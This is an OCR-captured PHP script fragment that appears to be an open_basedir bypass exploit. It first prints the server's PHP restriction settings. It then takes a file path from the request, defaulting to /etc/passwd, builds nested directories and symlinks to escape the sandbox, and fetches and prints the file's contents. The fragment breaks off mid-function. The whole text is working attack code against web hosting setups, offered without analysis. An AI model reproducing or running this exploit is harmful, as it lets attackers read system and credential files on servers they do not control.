 ```php
*/
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
```